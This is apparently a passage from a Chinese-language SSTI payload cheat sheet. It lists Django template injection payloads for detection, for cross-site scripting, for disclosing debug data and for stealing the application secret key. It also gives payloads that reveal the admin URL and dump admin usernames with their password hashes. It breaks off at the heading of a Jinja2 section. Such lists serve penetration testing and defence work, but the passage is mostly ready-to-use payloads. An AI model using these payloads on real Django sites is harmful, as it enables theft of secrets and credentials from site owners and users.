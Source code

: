 ## Django

Django 模板语言默认支持两种渲染引擎：Django 模板（DT）和 Jinja2。Django 模板是一个更简单的引擎。它不允许调用传递对象的方法，并且在 DT 中的 SSTI 影响通常比在 Jinja2 中的要轻。

### Django - 基本注入

```python
{% csrf_token %} # 使用 Jinja2 时会导致错误
{{ 7*7 }}  # 使用 Django 模板时会导致错误
ih0vr{{364|add:733}}d121r # Burp 负载 -> ih0vr1097d121r
```

### Django - 跨站脚本攻击

```python
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

### Django - 调试信息泄露

```python
{% debug %}
```

### Django - 泄露应用程序的密钥

```python
{{ messages.storages.0.signer.key }}
```

### Django - 泄露管理站点 URL

```python
{% include 'admin/base.html' %}
```

### Django - 泄露管理员用户名和密码哈希

```powershell
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}

{% get_admin_log 10 as admin_log for_user user %}
```

---

## Jinja2

[官方网站](https://jinja.palletsprojects.com/)
> Jinja2 是一个功能强大的 Python 模板引擎。它具有完整的 Unicode 支持，可选的集成沙盒执行环境，广泛使用并 BSD 许可。

### Jinja2 - 基本注入
